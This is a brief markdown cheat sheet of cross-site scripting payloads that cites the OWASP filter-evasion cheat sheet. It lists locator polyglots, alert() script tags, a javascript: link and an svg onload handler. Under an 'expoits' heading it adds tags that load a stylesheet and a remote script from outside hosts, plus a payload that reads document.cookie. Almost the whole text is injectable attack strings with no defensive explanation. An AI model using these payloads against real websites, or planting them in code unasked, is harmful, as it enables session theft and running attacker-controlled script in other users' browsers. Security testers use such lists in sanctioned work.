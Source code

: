 # xss
### xss locator
```
"';!--"<XSS>=&{()}
```

```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//"; alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```
```
<script>var q="";alert(1)//"</script>
```
```
<a href="javascript:alert(1)">Link</a>
```
```
<svg onload=alert(1)>
```

### expoits
```
<link rel=stylesheet href=//attacker/test.css>
```
```
<script src=http://peniscorp.com/topkek.js>
```

```
<script>alert(document.cookie)</script>
```

### references
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
